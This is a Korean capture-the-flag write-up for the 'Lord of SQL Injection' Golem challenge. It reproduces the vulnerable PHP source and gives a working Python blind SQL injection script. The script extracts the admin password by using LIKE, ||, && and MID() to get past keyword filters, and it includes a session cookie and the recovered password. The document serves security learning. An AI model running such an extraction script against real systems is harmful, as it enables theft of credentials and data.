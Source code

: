 # Lord of SQL Injection No.11 Golem

`or`, `and`, `substr()`, `=` 을 사용하지 않고 Blind SQL Injection을 하도록 유도한 문제이다.

## 소스 코드

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and|substr\(|=/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_golem where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_golem where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("golem"); 
  highlight_file(__FILE__); 
?>
```

```php
if(preg_match('/or|and|substr\(|=/i', $_GET[pw])) exit("HeHe");
```

`preg_match`에서 `or`, `and`, `substr()`을 필터링한 후 `HeHe`를 출력하며 문제 풀이에 실패하게 된다.

#### 문제 풀이 조건

```php
if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("golem"); 
```

DB에 있는 `pw` 값과 `$_GET` 방식으로 입력받은 `pw` 값이 일치하면 문제 풀이에 성공한다.

## Solution

```python
import urllib.request   # python 라이브러리에 내장된 urllib.request 를 불러온다.
from urllib.parse import quote

result = "" # pw 값을 저장할 문자열 변수
pwlen = 0

for i in range(1,10):
    url = "http://los.eagle-jump.org/golem_39f3348098ccda1e71a4650f40caa037.php?pw="
    add_url = "' || length(pw) like {} -- ;".format(i)
    print("Searching Password Length.. [{}]".format(i))
    add_url = quote(add_url)
    new_url = url + add_url
    re = urllib.request.Request(new_url)
    re.add_header("User-Agent","Mozilla/5.0")
    re.add_header("Cookie", "PHPSESSID=6d7n06fn55kjoc4fas5vuh24j4")
    response = urllib.request.urlopen(re)

    if str(response.read()).find("Hello admin") != -1:
        pwlen = i
        print("Found length!! => {}".format(pwlen))
        break

for i in range(1,pwlen+1):
    for j in range(ord('0'),ord('z')):
        url = "http://los.eagle-jump.org/golem_39f3348098ccda1e71a4650f40caa037.php?pw="
        add_url = "' || id like 'admin' && MID(pw,1,{}) like '{}' -- ;".format(str(i), result+chr(j))
        print("Searching.. - {0}{1}".format(url, add_url))
        add_url = quote(add_url)
        new_url = url + add_url
        re = urllib.request.Request(new_url)


        re.add_header("User-Agent","Mozilla/5.0")
        re.add_header("Cookie", "PHPSESSID=6d7n06fn55kjoc4fas5vuh24j4")

        request = urllib.request.urlopen(re)

        if str(request.read()).find("Hello admin") != -1:
            result += chr(j).lower()
            print("Found it!! => " + result)
            break
print("Finished Searching.")
print("Password : " + result)
```

Blind SQL Injection을 하기 위해 사용한 Python 코드는 형태가 거의 비슷하기 때문에 이전에 사용했던 코드에서 조금만 수정하면 손쉽게 사용 가능하다.

첫 `for`문에서 `length(pw) like {}` 구문으로 `pw`의 길이를 찾는다. -> pwlen = 8
`like`는 `=` 연산자가 `preg_match` 함수에서 필터링이 되기 떄문에 우회 용도로 사용된다.

#### like

* [SQL LIKE 구문](http://makand.tistory.com/entry/SQL-LIKE-%EA%B5%AC%EB%AC%B8)

두번째 `for`문에서는 `or`, `and` 연산을 우회하기 위해 `||`와 `&&`를 사용하였다.
`&&`는 URL에 직접 대입하면 안되지만, `quote(add_url)`가 실행되면 `URL Encoding`을 수행하기 때문에 서버 상에서는 `%26%26` 상태로 삽입되었다고 볼 수 있다.

`substr()` 을 우회하는 방법은 `substring()` 을 사용하거나 `MID()`를 사용하여 `substr()`을 우회하는 방법이 있다.

#### MID

* [MySQL - MID 함수, instr 함수](http://www.spatium.co.kr/languages/content.php?chno=5&bno=37)

* [SQL MID() 함수](http://makand.tistory.com/entry/SQL-MID-%ED%95%A8%EC%88%98)

모든 `for`문이 끝나면 `pw`값은 `88e3137f` 가 나오게 된다.

```
http://los.eagle-jump.org/golem_***.php?pw=88e3137f
```

URL에 직접 `pw`를 대입하면 DB의 `pw` 값과 일치하게 되어 문제 풀이에 성공하게 된다.